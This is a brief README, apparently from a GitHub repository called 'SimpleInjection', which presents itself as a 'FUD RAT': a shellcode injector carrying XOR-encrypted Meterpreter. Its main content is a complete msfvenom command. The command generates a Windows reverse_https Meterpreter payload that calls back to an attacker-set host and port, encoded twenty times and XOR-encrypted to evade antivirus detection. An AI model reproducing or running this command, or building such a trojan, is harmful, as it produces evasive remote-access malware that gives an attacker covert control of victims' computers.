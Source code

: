 # SimpleInjection
FUD RAT (Xor encrypted Meterpreter, shellcode injector)

to generate shellcode:

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.56.1 lport=4444 -e x64/zutto_dekiru -i 20 --encrypt xor --encrypt-key byte4RR4Y -f csharp
